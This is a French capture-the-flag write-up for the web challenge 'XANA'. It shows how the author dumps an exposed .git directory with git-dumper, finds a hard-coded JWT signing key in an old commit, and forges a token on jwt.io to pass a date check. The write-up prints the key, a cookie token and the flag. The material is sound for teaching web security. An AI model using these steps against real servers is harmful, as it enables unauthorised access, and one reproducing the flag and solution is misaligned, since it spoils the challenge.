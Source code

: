 # Write-Up
> **title:** XANA
>
> **category:** Web
>
> **difficulty:** Moyen
>
> **point:** 100
>
> **author:** MrSheepSheep
>
> **description:**
>
> XANA a commencé son attaque, et a pris le contrôle de notre serveur.
> > ??? : Ah, ce XANA. Il barricade la porte d'entrée, mais il laisse les fenêtres grandes ouvertes.
> >
> > Jérémie : Mais enfin... Mais c'est ma place là... Qu'est-ce que vous faites là?
> >
> > ??? : Ce que je fais? Et bien, je désactive les tours.
> >
> > Jérémie : Comment ça? D'ici, sans aller sur Lyoko?
> >
> > ??? : C'est plus simple comme ça, non?
> >
> > Aelita : Sûrement, oui. Mais vous êtes qui, au juste?
> >
> > ??? : Comment ça? Vous ne l'avez pas encore compris? Mais je suis Franz Hopper, bien sûr. C'est moi qui ai donné le jour à Lyoko. Et j'ai aussi créé XANA. XANA qui a échappé à mon contrôle. Au tout début, il s'agissait d'un programme que j'avais conçu, basé sur un système multi-agent, pour contrer un projet militaire.
>
> Objectif : réalisez un retour vers le passé pour contrer XANA
>
> Indice gratuit : https://xana.cybernight-c.tf/.git/
>
> Et oui, c'est une 404 !


## Dump du .git

Même si la phrase "réalisez un retour vers le passé" aurait dû nous mettre la puce à l'oreille, il a fallu attendre un hint des admmins pour se rappeler un dossier .git pouvait être oublié sur certains serveurs.

Bref, on skip la phase analyse pour le découvrir, on sait qu'il est là, on va donc le dumper. Perso j'utilise [git-dumper](https://github.com/arthaud/git-dumper), c'est en python, c'est pratique et rapide.

On commence par installer le tool : `pip install git-dumper`.

On oublie pas d'ajouter le dossier des libs python dans le PATH pour ceux qui sont sous Windows pour pouvoir les utiliser dans la cmd (sous Kali je crois que c'est fait de base).

```cmd
> pip install git-dumper
> git-dumper https://xana.cybernight-c.tf/.git/ D:/Desktop/XANA/
```

Vous devriez récupérer tout un tas de fichiers (ceux à jour) :

![Dossier récupéré](images/folder.png)


## Analyse des fichiers actuels

On commence par ouvrir **index.php** pour voir ce qui se passe sur le serveur (le fichier est dans /files).

Une chose intéressante :

```php
<?php
  $this->xana = getenv('FLAG');
?>
```
On voit que le flag est sauvegardé dans l'attribut **xana**.

```php
<?php if (!$Lyoko->isHacked): ?>
	<head>
		<title>Welcome to Lyoko</title>
		<style>
			body {
				background-color: darkblue;
				color: white;
				font-family: 'Courier New', sans-serif;
			}
		</style>
	</head>
	<body>
		Retour vers le passé ! XANA a été repoussé, et le monde est sauvé... pour l'instant.<br>
		<?= $Lyoko->xana; ?>
```

Dans la partie HTML, on peut y voir qu'il faut que Lioko.isHacked soit faux pour récupérer notre flag.

```php
<?php
  $this->world_shutdown = new DateTime(date("Y-m-d H:i:s", strtotime("3 December 2021 8:00")));
  $this->world_init = clone $this->world_shutdown;
  $this->world_init->modify('-24 hours');
  $this->identity = $this->get_identity();
  $this->isHacked = $this->identity["iat"] > $this->world_init->getTimestamp();
?>
```

Et pour que isHacked soit faux, il faut que **iat** de **identity** soit inférieur au **2 Décembre 2021 à 8h**. Mais du coup regardons **get_identity**.

```php
<?php
  public function get_identity() {
    try {
      # Si pas de JWT dans les cookie, en créé un
      if (!isset($_COOKIE["lyokoToken"])) {
        $payload = $this->generate_identity();
      }
      # Sinon le récupère
      else {
        $payload = $_COOKIE["lyokoToken"];
      }
      # Cast les infos dans le corps du JWT en vérifiant la signature.
      $jwt = (array) JWT::decode($payload, new Key($this->key, "HS256"));
    } catch (Exception $e) {
      echo $e;
      die('XANA CANNOT BE HACKED');
    }
  return $jwt;
  }
?>
```

On voit donc que pour modifier le **iat** de notre JWT, il faut soit contourner la vérification de signature, soit connaître la clé pour forger des JWT valides.

Intéressons nous à la deuxième solution (la première ne fonctionne pas, croyez moi).


## Analyse des commits

Ce qui nous intéresse : **les précédents commits**, on va essayé de **recover** les anciens en espérant tomber sur quelque chose de croustillant (**genre une clé**). On se place alors dans le dossier principal (*XANA selon ma cmd plutôt*) et l'on regarde les **logs**.

```
> git log
commit 504226cce9c480519606d1e99ac3413ea8b72450 (HEAD -> main)
Author: XANA <XANA@lyoko.cybn>
Date:   Fri Dec 3 15:59:26 2021 +0100

    RUN XANA_PATCH_0x90d266

commit 45f042fd921100a8faff50da1b5a5db0d296e074
Author: XANA <XANA@lyoko.cybn>
Date:   Fri Dec 3 15:48:39 2021 +0100

    RUN XANA_PATCH_0x28e33f1

commit c3e2f8ac6f04dfadb357cc247266d83b6f6cb6eb
Author: XANA <XANA@lyoko.cybn>
Date:   Fri Dec 3 14:19:52 2021 +0100

    RUN XANA_PATCH_0x28371

commit ca49a198627260eefb73e0a88cfde962d2604717
Author: XANA <XANA@lyoko.cybn>
Date:   Fri Dec 3 14:18:24 2021 +0100

    INITIALIZE XANA PROCESS

commit 99a6fc9aaa80598f040329195e0c85cc545a9e94
Author: Jeremy <jeremy@lyoko.cybn>
Date:   Fri Dec 3 11:49:22 2021 +0100

    Initial commit
```

On peut commencer à regarder si on trouve des choses intéressantes, en commençant par **INITIALIZE XANA PROCESS** puisque qu'on voit 3 patch ensuite, on se doute que le robot à fait des dingueries qu'il a dû corriger.


## Analyse du commit INITIALIZE

```
> git show ca49a198627260eefb73e0a88cfde962d2604717

[...]

class Lyoko {
-       public $key;
+       public $key = "tBDNlSUPfkiIOBLS5J8yVTprzZbQXVZm";
        public $xana;
        public $world_init;

        public function __construct() {
+               $this->xana = getenv('FLAG');
+               $this->world_shutdown = new DateTime(date("Y-m-d H:i:s", strtotime("3 December 2021 8:00")));
+               $this->world_init = clone $this->world_shutdown;
+               $this->world_init->modify('-24 hours');
        }
```

On voit que la $key servant à forger les JWT token est présente en clair, on peut tenter de l'utiliser pour forger nos propres tokens en espérant qu'elle n'est pas changée entre temps.


## Création d'un JWT

Un JWT, c'est :
- un body = base64(header).base64(payload)
- une signature = HMACSHA256(body, key)

On connait une clé, on connaît le body, plus qu'à modifier tout ça pour que ça fonctionne.

Première étape : récupérer un token créé par le site, pour ça on va dessus et on copie colle notre cookie, ici j'ai celui là : `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2MzkyNDE3MTR9.rgiHY0E6vUgTFg9OEaNBuv0NO0v9CruEVDcxxQG7E60`

Ensuite même pas besoin de coder :
1. on va sur **[jwt.io](https://jwt.io)**
2. on colle notre **jeton** dans la partie de gauche.
3. on colle notre secret **tBDNlSUPfkiIOBLS5J8yVTprzZbQXVZm** dans la partie signature.
4. on change le iat pour un nombre **inférieur à 1638432001**
5. on modifie notre cookie et l'on refresh la page

![Création du JWT](images/jwt.png)

![Récupération du flag](images/web.png)

**Flag : CYBN{R3t0ur_veR5_l3_P4S5e_!}** 
